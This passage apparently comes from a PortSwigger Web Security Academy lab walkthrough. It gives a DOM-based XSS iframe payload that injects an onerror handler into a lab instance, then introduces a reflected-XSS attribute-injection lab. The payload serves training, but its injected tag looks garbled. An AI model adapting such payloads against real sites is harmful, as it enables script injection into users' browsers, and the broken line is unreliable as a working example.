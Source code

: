 To exploit it, it is possible to use the same payload as in
https://portswigger.net/web-security/cross-site-scripting/dom-based:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
<iframe style="width:100%;height:100%" src="https://0ae000fe04dcc1068048c1f000ed005b.web-security-academy.net#" onload="this.src+='< src=1 onerror=print(1)>'">
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/71a471089206aaf79cd95c6e5992766d.png)

07 Reflected XSS into attribute with angle brackets HTML-encoded
================================================================

This lab contains a reflected cross-site scripting vulnerability in the search
blog functionality where angle brackets are HTML-encoded. To solve this lab,
perform a cross-site scripting attack that injects an attribute and calls the
alert function.

References:

-   https://portswigger.net/web-security/cross-site-scripting/contexts

